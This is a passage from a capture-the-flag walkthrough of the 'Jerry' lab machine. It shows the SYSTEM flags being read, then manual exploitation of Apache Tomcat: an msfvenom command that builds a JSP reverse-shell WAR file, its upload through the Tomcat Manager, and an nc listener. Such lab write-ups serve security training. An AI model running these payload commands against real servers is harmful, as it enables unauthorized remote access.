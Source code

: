    whoami
    
![](/images/jerry/31. shell.png)

We have system level privileges, success! Let's go get our flags:

    cd C:\Users
    
    dir

![](/images/jerry/32. enum.png)

On this machine, both flags are in one document, in a slightly different location than normal:

    type "Administrator\Desktop\flags\2 for the price of 1.txt"

![](/images/jerry/26. flags.png)

And there we have our flags.
     

<p>&nbsp;</p>
=======================================================

## Manual Exploitation

=======================================================

We are going to deploy a WAR file that will execute a reverse shell when run. Let's Google "msfvenom war payloads":

![](/images/jerry/17. google-msfvenom.png)

And the first link that comes up for me is a gold mine: [https://netsec.ws/?p=331](https://netsec.ws/?p=331)

![](/images/jerry/18 war.png)

So we need to make a command like this:

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.24 LPORT=17011 -f war > win_the.war

![](/images/jerry/19 msfvenom.png)

Now we upload it using the Tomcat Manager app:

![](/images/jerry/20. upload.png)

Click the “Browse” button and then navigate to your .war file.  Then click Deploy.

The page should refresh and you should see your war file as an application:

![](/images/jerry/21. application.png)

In a separate terminal window, set up your listener on the port you chose for LPORT:

    nc -lvnp 17011
